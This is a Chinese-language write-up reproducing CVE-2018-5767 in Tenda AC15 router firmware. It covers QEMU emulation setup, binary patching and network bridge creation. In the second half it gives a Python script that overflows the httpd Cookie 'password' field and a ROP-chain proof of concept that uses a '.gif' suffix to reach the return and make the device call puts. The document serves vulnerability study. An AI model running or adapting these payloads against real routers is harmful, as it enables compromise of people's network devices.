# CVE-2018-5767 复现

>固件下载地址：
>
>https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-AC15-Router-Firmware-1503116.shtml

## 0x00 前言

这算是我第一个复现的 CVE 漏洞，由于对整体流程不熟悉，加上常规打 pwn 题的思路在这里不太适用，导致复现过程磕磕绊绊。最让我震惊的还是关于 POC，POC 不需要有完整的攻击思路，仅需要证明该漏洞存在即可。

## 0x01 前置工作

下载固件后，使用 `binwalk -Me` 解包固件

检查发现，该固件为 32 位 ARM 小端架构

```bash
file ./bin/busybox     
./bin/busybox: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

根据漏洞披露报告与互联网上的复现文章，漏洞程序是 `/bin/httpd`。

我们首先需要安装 QEMU 的用户态模拟相关包

```bash
sudo pacman -S qemu-user-static qemu-user-static-binfmt
```

然后加载 binfmt-misc 规则

```bash
sudo systemctl restart systemd-binfmt.service
```

由于作者使用的是 Arch Linux，上述命令略有差别。

然后将`qemu-arm-static`移动到当前固件目录下

```bash
sudo mv /bin/qemu-arm-static ./squashfs-root
```

接下来启动用户态模拟

```bash
sudo chroot . ./qemu-arm-static -L . ./bin/httpd     
```

程序在此处暂停，这在用户态模拟中很常见，因为我们没有完全模拟整个固件的运行环境。



我们需要 patch 程序，改变程序执行流，让用户态模拟可以正常进行。

可以看到程序卡在了 `Welcome to ...` 这句话上，我们在 IDA 中搜索这个字符串，然后定位引用



在 `main` 函数中，在该语句下方有一个检查，不通过会让程序持续睡眠，我们需要修改该处的汇编，让其变成永真跳转。



我们需要将这里的 `MOV R3, R0` 改成 `MOV R3, #1`，修改后如下图



此时循环语句消失



应用更改并替换原来的`httpd`程序，继续运行，发现程序出现如下报错

```bash
connect: No such file or directory
Connect to server failed.
connect cfm failed!
```

继续 patch 程序，修改如下



应用并替换程序，再次运行，发现程序正常启动，开启监听，但是获取的 IP 地址有错误



查阅资料并参考他人的复现文章后发现，该程序需要依赖一个名叫 `br0` 的网桥，我们通过搭建虚拟网桥的方式创建 `br0` 网桥并为其指定一个 IP 地址，命令如下（Arch Linux）：

1. 创建一个名为 br0 的网桥
   ```bash
   sudo ip link add name br0 type bridge
   ```

2. 启动网桥
   ```bash
   sudo ip link set dev br0 up
   ```

3. 为网桥分配局域网 IP
   ```bash
   sudo ip addr add 192.168.0.1/24 dev br0
   ```

重新启动程序，可以看到 IP 为我们所设置的 IP



## 0x02 漏洞复现

根据网络上的资料，可以得知该程序的漏洞在 `R7WebsSecurityHandler` 函数中



程序在向栈中写入数据时，未检查大小，导致栈溢出。

向上查看，发现可以通过构造形如 `http://192.168.0.1:80/goform/xxxx` 的 URL 绕过 if 检查，进而让程序执行有漏洞的代码



构造如下代码

```python
import requests
URL = "http://192.168.107.142:81/goform/helloworld"
cookie = {"Cookie":"password="+"a"*0x400}
requests.get(url=URL, cookies=cookie)
```

然后使用 QEMU 开启调试端口，使用 IDA 或者 GDB 连接，这里使用 IDA。

先在 `R7WebsSecurityHandler` 的栈溢出漏洞处和 `return` 处下断点，然后开启调试



在 IDA 中，`F9` 相当于 GDB 的 `c` 命令，`F8` 相当于 `ni`，`F7` 相当于 `si`

我们这里直接 F9，然后运行 Python 代码，程序在漏洞代码处暂停

可以看到 `v36` 全变成 `'a'` 了



如果看不到，可以用 F8 往下执行几步，执行完 `sscanf` 函数

然后直接按 F9

程序直接崩溃了



这里指向的是一个库函数，而不是溢出的 `0x61616161`，说明程序没有返回就崩溃了。这里没有详细分析崩溃位置，是因为漏洞代码下方有一个 if 判断，满足条件即可直接跳转到 return



如果在 payload 后面拼接任意一个在上面出现的文件后缀，这个函数就会直接返回。

于是我们就能构造如下 POC

```py
import requests
from pwn import *

libc = ELF('./libc.so.0')

URL = "http://192.168.0.1:80/goform/xuanyuan"
_str = b"HACKING FOR FUN\x00"                         # bytes literal

libc_base = 0x409a1000
puts = libc_base + libc.sym['puts']

mov_r0 = libc_base + 0x00040cb8
pop_r3 = libc_base + 0x00018298

payload = b'a' * 448 + p32(pop_r3) + p32(puts) + p32(mov_r0) + _str

cookie_value = payload.decode('latin-1')
cookie = {"Cookie": "password=" + cookie_value + ".gif"}

requests.get(url=URL, cookies=cookie)
```

运行后可以看到输出了我们想要的语句


